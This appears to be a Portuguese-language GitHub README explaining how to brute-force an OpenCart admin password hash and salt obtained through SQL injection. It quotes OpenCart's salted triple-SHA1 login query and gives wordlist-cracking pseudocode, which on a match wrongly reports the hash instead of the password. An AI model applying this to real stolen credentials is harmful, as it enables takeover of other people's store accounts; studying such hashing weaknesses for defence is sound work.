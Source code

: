 # brute-force-opencart-documentation
Nesse documento eu explico como realizar ataques de força bruta em senhas opencart


CENÁRIO:
VOCÊ CONSEGUIU INJETAR CÓDIGO SQL NO OPENCART.
VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

A SENHA É: f2e9efd4a366507c5b1cba7749659d93d61ae335
A SALT É: oInuc412L

Se vc não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar quebrar essa HASH com força bruta.

```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($wordlist_string[0]);

SE $comparative IGUAL A $password
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($wordlist_string[++]);
	COMPARA A $comparative COM A $password
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $password
```


O problema é que $password, A senha do admin não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma hash equivalente a que você quer possui.

PORQUE?

OLHANDO NO CÓDIGO QUE FAZ A AUTENTICAÇÃO DO USUÁRIO NO OPENCART
\system\library\customer.php

TEMOS O SEGUINTE CÓDIGO:
```
$customer_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "customer WHERE LOWER(email) ='" . $this->db->escape(strtolower($email)) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1' AND approved = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

TRANSFORMANDO PRA NOSSA LINGUA FICA ALGO COMO:
$password=SHA1($salt.SHA1($salt.SHA1($password)));

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

Agora já sabemos como devemos criptografar nossas strings da nossa wordlist e comparar com a HASH do ADMIN

FICARIA ALGO DO TIPO:


```
INICIO:

$wordlist_string[] = WORDLIST.TXT

$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";
$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[0])));

SE $comparative IGUAL A $password
	ENTÃO: A SENHA É : $comparative

SE NÃO
	$comparative = SHA1($salt.SHA1($salt.SHA1($wordlist_string[++])));;
	COMPARA A $comparative COM A $password
FIM.

ASSIM SUCESSIVAMENTE ATÉ TERMOS $comparative == $password
```

